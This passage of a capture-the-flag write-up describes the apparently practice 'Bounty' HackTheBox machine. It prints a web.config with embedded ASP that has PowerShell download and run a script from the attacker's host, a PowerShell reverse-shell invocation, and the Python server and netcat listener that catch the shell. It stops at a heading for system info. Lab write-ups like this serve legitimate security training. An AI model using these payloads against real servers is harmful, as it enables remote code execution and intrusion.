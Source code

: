 ```
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.5/shell.ps1')")
%>
```

Look at the line where it says "shell.ps1". The same GitHub Repo contains the Invoke-PowerShellTcp.ps1 which I download and rename as shell.ps1. I changed the last line of that ps1 file to my ip.

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.5 -Port 443
```

So what is happening here? I will upload the web.config file through the transfer.aspx. The file will be accessible using the URL `http://bounty.htb/uploadedFiles/web.config` following to that the web.cofig file will try to download the shell1.ps from my server. So I need to start the python web server on my end. As soon as I open web.config, I will notice the GET request on my server. Target will try to download the shell.ps1 from my server and execute. Once the execution completes, I will have my reverse shell.

```
──(ringbuffer㉿kali)-[~/Downloads/Bounty.htb]
└─$ python -m http.server 80                                   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.93 - - [09/Aug/2024 12:41:12] "GET /shell.ps1 HTTP/1.1" 200 -

```

10.10.10.93 is an IP address of Bounty.htb which perform the GET request on my python web server where the shell.ps1 is present. At this point, the netcat listener is running as well in the second tab.

```
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.93] 49158
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
bounty\merlin
```


At this point, as tried in the previous boxes (devel, granny, Grandpa), the local_exploit_suggester did not show any of the exploits. Let's try out winPEAS.
#### System Info 
